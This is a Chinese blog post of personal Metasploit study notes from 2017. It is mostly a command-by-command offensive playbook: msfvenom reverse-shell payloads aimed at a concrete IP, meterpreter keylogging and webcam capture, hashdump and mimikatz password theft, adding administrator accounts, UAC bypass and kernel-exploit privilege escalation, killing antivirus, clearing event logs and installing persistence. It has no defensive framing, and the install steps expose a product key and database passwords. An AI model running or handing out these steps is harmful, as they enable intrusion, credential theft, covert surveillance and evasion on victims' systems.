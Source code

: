 ```yaml
---
layout:		post
title:		"metasploit学习笔记"
subtitle:		"分享一下以前写的msf笔记"
date:		2017-06-08 23:21:49 +0800
author:		"Les1ie"
catlog:   true
tags: 
  - 学习笔记
  - metasploit
  - 网络安全
---
```


## 0x00 序言
2017年6月8日23:26:39 
这是平时记的笔记，后面有空了继续分享一些有趣的东西


## 0x01 在服务器上安装msf
2017年4月23日01:07:30

手动安装msf
```bash
$ #url: https://www.rapid7.com/products/metasploit/download/community/thank-you/
$ wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
$ #key 8TD3-KQ09-HLP0-EVJR
$ apt install postgresql
$ passwd postgres #metasploit4
$ su - postgres
$ psql
[psql]$ \password postgres
[psql]$ \quit
$ sudo ./metasploit-latest-linux-x64-installer.run --installer-language zh_CN --prefix /opt/metasploit --postgres_password psql_passwd
$ #建立数据库连接
$ db_connect postgres:metasploit4@localhost:5432/metasploit4
```

---
msf连接数据库
```bash
msfdb init
```

建立数据库索引
```
$ db_bebulid cache
```

msf自定义模块安装位置
`/opt/metasploit/apps/pro/vendor/bundle/ruby/2.3.0/gems/metasploit-framework-4.14.13/modules/exploits/windows/iis`



## 0x01 常用命令

1. 使用reverse_tcp监听模块
```bash
$ use exploit/multi/handler
$ set PAYLOAD windows/meterpreter/reverse_tcp
$ show options
$ set LHOST 0.0.0.0
$ set LPORT 5555
```
2. 生成reverse_tcp模块，-p 表示使用的payload, -f 表示生成shellcode的种类
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=123.207.2.2 LPORT=5555 -f exe >shell.exe  
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=123.207.1.2 LPORT=5555 -f dll >shell.dll
```
3. meterpreter的使用
```bash
$ ps  # show all progress
$ kill pid
$ keyscan_start # start record keyboard
$ keyscan_dump
$ keyscan_stop
$ ipconfig
$ ifconfig
$ screenshot 
$ shell  # get cmd shell
$ getsystem  #get root
$ getwd   # get path
$ pwd
$ sysinfo
$ cat file.txt
$ idletime # time of no operate
$ search -h  # search file
$ upload /root/file.txt
$ webcam_snap # you know
$ run check_kvm  # check virtue machine or not
$ run get_local_subnets
$ run post/windows/manage/autoroute #获取路由信息
$ run post/windows/gather/smart_hashdump #get system passwd， need root
$ migrate 2333 #move meterpreter to another progess
$ timestop #change timestamp
$ run killav #kill anti virus software
$ run post/windows/gather/checkvm
```


提权：
```cmd
getsystem 获取system权限
$ getuid 查看当前权限
$ shell
> net user fdf6e3 fdf6e4 /add
> net localgroup adminstrator fdf6e3 /add   新建用户提升至管理员权限

```
盗取管理员token
```
$ steal_token 3232
$ getuid
```

获取管理员密码
```
$ hashdump
$ smart_hashdump  ? 不详， 稍后查验
```

开对方3389
```
$ run getgui -e
$ rdesktop -u fdf6e3 -p fdf6 ip

```

如果上述提权均失败，尝试手动提权
```
$ background # 将会话放到后台运行
$ use exploit/windows/local/ms15_051_client_copy_image
$ set SESSION 1 直接设置session id, 
$ exploit
$
$ sessions -i 1 返回meterpreter会话，
$ getuid 此时权限一般不是管理员
$ ps 找一个system的进程pid
$ migrate 2324
$ getuid
```

获取对方最近文件操作
```
run post/windows/gather/dumplinks
```

载入mimikatz获取明文密码
```
$ load mimikatz
$ msv 确认当前权限
$ kerberos 导出明文密码
$ mimikatz_command -f sekurlsa::searchPasswords 获取明文密码
```

清理痕迹
```
$ clearev
```

AlwaysInstallElevated 提权
```
$ cmd 里面执行
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated


$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ #生成msi文件用于提权
$ msfvenom -p windows/adduser USR=fdf6e4 PASS=ABCDEF -f msi -o add_user.msi
$ upload add_user.msi c:\\add.msi
$ 使用msiexec 安装msi文件
$ msiexec /quit /qn /i c:\add_user.msi
/quit 表示禁止发送消息 /qn 表示禁止gui界面 /i 表示安装程序
$ net localgroup administrator 查看当前计算机的管理员

$ 开启对方3389
$ wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```

绕过uac提权
```
$ background
$ use exploit/windows/local/bypassuac
$ set session 1
$ exploit
$ getuid
$ getsystem
$ getuid
```

其他提权漏洞
 ms13_053, ms14_058, ms16_016, ms16_032
 
 权限维持,在meterpreter中执行
 ```
 $ run metsvc -A
 $ 此时meterpreter 掉线，按照提示新建连接
 $ use exploit/multi/handler
 $ set payload windows/metsvc_bind_tcp
 $ set port 33333
 $ run
```
控制完成
退出第一个meterpreter, 输入
```
$ session -l
```
即可看到rj, 输入 
```
$ session -i id
```
即可长期控制


实际操作中，getsystem提权和bypassuac 提权失败，使用ms15_051运行之后需要将会话转移到一个system的进程中，最后ms14_058提权成功
检测成功只需要检测当前路径即可，或者getuid

## 0x02 使用meterpreter搭建跳板
2017年6月8日23:29:25
等以后有空了研究了再写吧
